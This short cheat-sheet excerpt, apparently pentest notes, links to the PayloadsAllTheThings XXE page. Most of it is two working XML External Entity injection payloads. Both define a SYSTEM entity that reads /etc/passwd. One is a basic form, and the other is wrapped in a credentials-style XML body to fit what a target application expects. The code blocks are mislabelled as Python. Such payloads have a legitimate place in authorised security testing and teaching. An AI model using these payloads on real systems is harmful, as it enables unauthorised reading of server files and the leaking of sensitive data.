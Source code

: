 [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE) Injection
Check for XXE if an application is references XML formatted data
**Basic payload**
```Python
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data (\#ANY)>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<data>&file;</data>
```
**Ensure you’re following the applications expected format**
```Python
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE creds [
<!ELEMENT creds ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<creds><user>&xxe;</user><password>pass</password></creds>
```
